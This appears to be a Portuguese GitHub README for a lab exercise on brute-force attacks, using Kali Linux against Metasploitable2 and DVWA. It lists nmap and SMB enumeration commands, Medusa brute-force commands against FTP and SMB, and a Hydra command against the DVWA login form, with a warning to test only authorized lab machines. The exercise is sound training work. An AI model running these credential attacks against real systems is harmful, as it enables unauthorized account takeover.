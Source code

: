 
# Desafio: Ataques de Força Bruta com Medusa (Kali + Metasploitable2/DVWA)

## Resumo
Projeto prático para demonstrar ataques de força bruta em ambiente controlado usando Kali Linux e Medusa, com alvo Metasploitable2 e DVWA. Objetivo: aprender enumeração, execução de ataques e propor medidas de mitigação.

> **Atenção:** todos os testes foram executados apenas em VMs de laboratório (Kali e Metasploitable). Não execute testes em sistemas sem autorização.

## Ambiente
- Hypervisor: VirtualBox  
- Kali Linux — IP: **192.168.1.2**  
- Metasploitable2 (alvo) — IP: **192.168.1.16**  
- Rede: Host-only / Internal Network

## Ferramentas utilizadas
- Kali Linux  
- Medusa  
- Nmap  
- smbclient, enum4linux  
- Hydra (opcional, para formulários HTTP)  
- ssh/sshfs

## Wordlists (exemplos)
- `wordlists/simples_usernames.txt`  
- `wordlists/simples_passwords.txt`  

*(Use wordlists maiores como `rockyou.txt` somente em laboratório.)*

## Comandos principais (exemplos)
### Enumeração
```bash
sudo nmap -sS -sV -p21,22,80,139,445,3306 192.168.1.16 -oN nmap_common.txt
smbclient -L //192.168.1.16 -N
enum4linux -a 192.168.1.16 > enum4linux.txt


medusa -h 192.168.1.16 -u msfadmin -P wordlists/simples_passwords.txt -M ftp -t 4 -f -O results/medusa_ftp.txt


medusa -h 192.168.1.16 -U wordlists/simples_usernames.txt -P wordlists/simples_passwords.txt -M smb -t 8 -f -O results/medusa_smb.txt


hydra -l admin -P wordlists/simples_passwords.txt 192.168.1.16 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:F=incorrect"

Imagens do Projeto

<p align="center"> <img src="https://raw.githubusercontent.com/marceloguilherme100/desafio-medusa-kali/main/imagem1.PNG" width="170" alt="Página Inicial 1"> <img src="https://raw.githubusercontent.com/marceloguilherme100/desafio-medusa-kali/main/imagem2.PNG" width="170" alt="Página Inicial 2"> <img src="https://raw.githubusercontent.com/marceloguilherme100/desafio-medusa-kali/main/imagem3.PNG" width="170" alt="Página Inicial 3"> <img src="https://raw.githubusercontent.com/marceloguilherme100/desafio-medusa-kali/main/imagem4.PNG" width="170" alt="Página Inicial 4"> <img src="https://raw.githubusercontent.com/marceloguilherme100/desafio-medusa-kali/main/imagem5.PNG" width="170" alt="Página Inicial 5"> </p> ```




